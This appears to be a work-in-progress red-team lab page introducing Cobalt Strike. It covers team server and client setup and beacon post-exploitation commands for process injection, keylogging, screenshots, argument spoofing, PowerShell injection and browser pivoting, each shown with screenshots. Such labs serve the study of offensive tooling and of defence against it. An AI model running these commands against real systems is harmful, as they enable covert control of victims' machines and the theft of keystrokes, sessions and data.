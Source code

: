 # Cobalt Strike: 101

This lab is for exploring the advanced penetration testing / post-exploitation tool Cobalt Strike.

{% hint style="info" %}
WIP
{% endhint %}

## Definitions

* Listener - a service running on the attacker's C2 server that is listening for beacon callbacks
* Beacon - a malicious agent / implant on a compromised system that calls back to the attacker controlled system and checks for any new commands that should be executed on the compromised system
* Team server - Cobalt Strike's server component. Team server is where listeners for beacons are set up. Team server allows attackers instructing beacons to execute commands such as record keystrokes, dump passwords, etc on compromised systems.

## Getting Started

Cobalt Strike has client and server side components to it. First, we need to run the team server.

### Team Server

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
# the syntax is ./teamserver <serverIP> <password> <~killdate> <~profile>
# ~ optional for now
root@/opt/cobaltstrike# ./teamserver 10.0.0.5 password
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-06-22-47-10.png)

{% hint style="info" %}
Note that in real life red team engagements, you would most likely use redirectors to add some resilience to your infrastructure. See [Red Team Infrastructure](red-team-infrastructure/)
{% endhint %}

### Cobalt Strike Client

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
root@/opt/cobaltstrike# ./cobaltstrike
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enter the following:

* host - team server IP or DNS name
* user - anything you like - it's just a nickname
* password - your team server password

![](../.gitbook/assets/screenshot-from-2019-01-06-22-51-40.png)

### Demo

![](../.gitbook/assets/peek-2019-01-06-22-56.gif)

## Setting Up Listener

![](../.gitbook/assets/peek-2019-01-07-18-01.gif)

## Generating a Stageless Payload

![](../.gitbook/assets/peek-2019-01-07-18-03.gif)

## Receiving First Call Back

![](../.gitbook/assets/peek-2019-01-07-18-15.gif)

## Interacting with Beacon

![](../.gitbook/assets/screenshot-from-2019-01-07-18-22-38.png)

## Interesting Commands

### Argue

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> argue calc /spoofed
beacon> run calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-19-18-23.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-19-09-47.png)

{% page-ref page="../offensive-security-experiments/masquerading-processes-in-userland-through-\_peb.md" %}

{% page-ref page="../memory-forensics/process-environment-block.md" %}

### Inject

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2019-01-07-20-16.gif)

### Keylogger

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}



![](../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)

### Runu

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-39-20.png)

### Psinject

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-44-30.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)

### Browser Pivoting

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> browserpivot 244 x86
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-21-23-50.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-33-54.png)

![](../.gitbook/assets/peek-2019-01-07-21-36.gif)




